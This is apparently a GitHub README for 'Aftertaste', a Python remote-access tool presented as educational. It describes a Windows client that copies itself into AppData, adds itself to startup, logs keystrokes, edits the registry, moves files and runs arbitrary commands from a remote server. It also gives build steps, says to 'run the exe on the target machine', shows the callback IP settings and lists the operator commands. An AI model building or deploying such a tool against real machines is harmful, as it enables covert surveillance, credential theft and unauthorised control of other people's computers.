

# Aftertaste

Aftertaste is a python-based reverse shell with numerous tools for educational purposes. It allows arbitrary command execution of a client's machine, keystroke logging, and registry edits.



# Features

- Arbitrary command execution
- AES-128 bit key encryption between client and server packets
- Automatically places client into the startup registry on first launch
- Windows registry key manipulation
- Keystroke logging
- Encrypted file transfer between server and client

### Environment
| Operating System | Client | Server |
| ------ | ------ | ------ |
| Windows 10 | ✔ | ✔|
| Windows 8.1 | ✔ | ✔ |
| Ubuntu | ✘ | ✔|
Python 3.6+

### Installation

Install [python 3.6](https://www.python.org/downloads/release/python-369/) to be able to run the server

Install the python dependencies from the master branch

```sh
$ pip install -r requirements.txt
```

# Usage
### Running the client
Edit ./settings/keys.py to change the server's ip address and password

>CONN_IP_ADDRESS = "127.0.0.1"

>CONN_PASSWORD = "password"

>CONN_PORT=5000

Compile client.py on windows by running build.bat
```sh
$ .\build.bat
```
The exe file will be in the dist folder

Run the exe on the target machine

Running the exe file the first time will copy itself into the folder:
>C:\Users\%user%\AppData\Local\


### Server usage
Run server.py using python
```sh
$ python3 server.py
```

Once a client successfully connects to the server, list all current open connections using:
```sh
LST
```
Choose a connection 
```sh
CHS 0
```
Issue command line commands using
```sh
CMD [shell command]
```